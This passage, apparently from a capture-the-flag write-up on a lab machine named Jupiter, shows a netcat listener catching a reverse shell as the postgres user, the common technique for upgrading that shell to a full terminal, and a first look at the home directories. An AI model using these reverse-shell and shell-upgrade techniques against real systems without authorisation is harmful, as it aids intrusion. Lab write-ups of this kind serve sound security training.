 ![image-20230831162307047](/img/image-20230831162307047.png)

On sending this, I get a shell at `nc`:

```

oxdf@hacky$ nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.216 51132
bash: cannot set terminal process group (1494): Inappropriate ioctl for device
bash: no job control in this shell
postgres@jupiter:/var/lib/postgresql/14/main$ 

```

I’ll upgrade my shell using the [standard trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

```

postgres@jupiter:/var/lib/postgresql/14/main$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
postgres@jupiter:/var/lib/postgresql/14/main$ ^Z
[1]+  Stopped                 nc -lvnp 443
oxdf@hacky$ stty raw -echo ; fg
nc -lvnp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
postgres@jupiter:/var/lib/postgresql/14/main$ 

```

## Shell as juno

### Enumeration

#### Filesystem

The postgres user’s home directory is in `/var/lib/postgres`, and doesn’t have much interesting.

There are two users on the box with directories in `/home`:

```

postgres@jupiter:/home$ ls
jovian  juno
postgres@jupiter:/home$ ls */
ls: cannot open directory 'jovian/': Permission denied
ls: cannot open directory 'juno/': Permission denied

```

postgres can’t access either.
